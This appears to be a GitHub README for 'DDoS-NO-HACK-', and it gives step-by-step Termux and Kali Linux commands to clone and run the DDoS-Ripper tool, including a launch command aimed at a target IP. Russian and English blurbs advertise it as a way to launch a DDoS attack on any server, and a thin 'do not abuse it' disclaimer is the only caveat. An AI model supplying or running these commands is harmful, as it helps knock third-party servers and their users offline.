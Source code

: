 # DDoS-NO-HACK-
This is a DDoS attack, do not abuse it, I am not responsible. By Rreexut


open in termux = - > 

# pkg install python3 -y
# git clone https://github.com/palahsu/DDoS-Ripper.git
# cd DDoS-Ripper
# python3 DRipper.py

{Installation on Kali Linux}= - > 

# git clone https://github.com/palahsu/DDoS-Ripper.git
# cd DDoS-Ripper
# python3 DRipper.py
# python3 DRipper.py -s [ip] -t 135

by Rreexut

Запускаем DDoS атаку в терминале🍸

RU : DDoS-Ripper – инструмент, с помощью которого можно запустить DDoS-атаку на любой сервер. Также скрипт имеет гибкие настройки

EN : DDoS-Ripper is a tool with which you can launch a DDoS attack on any server. The script also has flexible settings

